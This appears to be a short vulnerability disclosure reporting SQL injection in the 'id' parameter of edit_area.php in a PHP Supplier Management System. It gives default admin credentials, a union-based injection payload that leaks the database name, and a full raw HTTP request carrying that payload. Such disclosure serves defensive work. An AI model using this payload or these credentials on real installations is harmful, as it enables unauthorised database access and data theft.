 # Supplier Management System v1.0 has SQL injection

BUG_AUTHOR: 武汉大学姚炜柏

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/supplier-management-system-using-php-mysql/

Vulnerability File: /Supply_Management_System/admin/edit_area.php?id=

Vulnerability location: /Supply_Management_System/admin/edit_area.php, id

Current database name: sourcecodester_scm_new

[+] Payload: /Supply_Management_System/admin/edit_area.php?id=-1%27%20union%20select%201,database(),3--+ // Leak place ---> id

```sql
GET /Supply_Management_System/admin/edit_area.php?id=-1%27%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=krbgs900f1q659nctcebpvlsa8
Connection: close
```

![图片](https://github.com/user-attachments/assets/89881b19-ae52-4d8f-8312-d74e59e9a44e)
